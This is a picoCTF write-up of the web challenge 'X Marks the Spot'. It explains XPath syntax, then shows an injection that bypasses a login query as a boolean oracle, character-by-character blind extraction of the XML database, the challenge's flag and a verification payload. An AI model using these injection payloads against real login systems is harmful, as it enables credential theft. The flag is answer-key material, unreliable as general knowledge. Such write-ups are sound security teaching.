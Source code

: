 ```yaml
---
title: "X Marks the Spot"
description: "picoCTF writeup by Wakeful Cloud"
date: 2021-04-02T23:39:19-06:00
categories: [
  "picoCTF"
]
tags: [
  "Web Exploitation",
  "Injection Vulnerability",
  "Wakeful Cloud"
]
---
```


### Challenge Rating
* Artificialness: `3/10`
* Skill: `7/10`
* Time: `4-6 hours`

*Learn more about how we rate challenges [here](/post/rating).*

## Preface
This write-up assumes you understand what an injection vulnerability is. If you
don't you, should check out [Web Gauntlet 2](/post/web-gauntlet-2).

## What is XPath?
[XPath](https://en.wikipedia.org/wiki/XPath) is the standard way of querying
data from an XML document (Similar to SQL). There are a few basic things you
need to know about XPath:
1. Think of XPath queries like a file-path (`/` separated, items are written in
a descending, hierarchical-order)
1. A `/` represents the root element
2. A `//` represents any element in any location
3. You can extract an element's content with `{Element}/text()`
(eg: `//user/name/text()` equals `guest`)
5. You can get a string's length with [`string-length`](https://developer.mozilla.org/en-US/docs/Web/XPath/Functions/string-length)
(eg: `string-length('abc')` equals `3`)
6. You can get a substring with [`substring`](https://developer.mozilla.org/en-US/docs/Web/XPath/Functions/substring)
(eg: `substring('abc', 2, 1)` equals `b`; note: **XPath is one-indexed**)
8. You filter elements with `[{Condition}]`
   1. You can filter by position with `[position() {Operator} {Number}]`
(eg: `[position() = 2]`; note: **XPath is one-indexed**)
   2. You can filter by string-matches with `['A' = 'B']`
   3. You can join different conditions together with `or` or `and`

## Solving the challenge

### Probable Query
In order to develop an injection, it helps to have a query (Although it likely
won't be the same as the actual query picoCTF uses). To develop it, think about
what conditions the server uses to find a user element: does the user's name equal
a user-controlled valued and does the user's password equal another user-controlled
value? The probable query I developed was:
```css
//user[name/text()='[USERNAME INPUT]' and pass/text()='[PASSWORD INPUT]']
```

### Developing an injection
Now that we have a probably query, we can start messing around with single-quote
injection to try to escape the user-controlled strings. I found using `abc` as
the username and `' or {CONDITION} and 'a'='a` as the password allows for us to
run arbitrary boolean expressions on the server (Note that `You're on the right path.`
indicates `true` while `Login failure.` indicates `false`). While this doesn't
allow us to return strings, it's a start.

### Exfiltrating data
We know we can evaluate a boolean expression but how can we extract a string? The 
answer is by testing each character in a string until we get the correct 
character and with enough characters, the entire string.

Initially it may seem like this a place where binary search would work well - we
could possibly check if the nth character code is greater than the a certain
number however the [`fn:string-to-codepoints`](https://www.oreilly.com/library/view/xslt-2nd-edition/9780596527211/re156.html)
function is disabled. Therefore, we will have to go through each character 
sequentially (Linear search). This is the part where this challenge gets very painful. The good news is that we can reasonably assume all characters are inside
of the [printable ASCII range](https://flaviocopes.com/printable-ascii-characters/)
(97 characters) which is far easier to guess than say [Unicode](https://en.wikipedia.org/wiki/Unicode)
([143,859 characters](https://www.unicode.org/versions/Unicode13.0.0/)).

To expedite this process, I developed a mini library for data extraction 
specifically for this challenge. You can view the source code
[here](https://gist.github.com/Wakeful-Cloud/82f56b039d37d8db291fd12ea6de8f15).
This took a long time to extract because I followed multiple incorrect paths
(Hence the flag's message); but I did find [this XML playground](https://cutt.ly/9xhyyyR)
to be extremely helpful for constructing XPath queries. Eventually, I was able
to extract the below XML document (And the flag too):
```xml
<db>
  <poems>
    <poem>
      <author>Robert Frost</author>
      <title>The Road Not Taken</title>
      <text>[UNKNOWN]</text>
    </poem>

    <poem>
      <author>William Carlos Williams</author>
      <title>The Red Wheelbarrow</title>
      <text>[UNKNOWN]</text>
    </poem>

    <poem>
      <author>Pablo Neruda</author>
      <title>Oda a la papa</title>
      <text>[UNKNOWN]</text>
    </poem>

    <poem>
      <author>Gwendolyn Brooks</author>
      <title>We Real Cool</title>
      <text>[UNKNOWN]</text>
    </poem>

    <poem>
      <author>William Blake</author>
      <title>The Tyger</title>
      <text>[UNKNOWN]</text>
    </poem>
  </poems>

  <users>
    <user>
      <name>guest</name>
      <pass>thisisnottheflag</pass>
    </user>

    <user>
      <name>bob</name>
      <pass>thisisnottheflageither</pass>
    </user>

    <user>
      <name>admin</name>
      <pass>picoCTF{h0p3fully_u_t0ok_th3_r1ght_xp4th_f0505d9c}</pass>
    </user>
  </users>
</db>
```

*Note: `[UNKNOWN]` represent strings that are very long and would take a long time to extract; you can probably make an educates guess though.*

### Data verification
While extracting the data is very time-consuming and requires potentially
thousands of HTTP requests, verifying the data is easy. For example, here's
the login credentials to verify the flag (Which could change if you're reading
this far in the future):
* Username: `abc`
* Password: `' or /db/users/user[position()=3]/pass/text() = 'picoCTF{h0p3fully_u_t0ok_th3_r1ght_xp4th_f0505d9c}' and 'a'='a`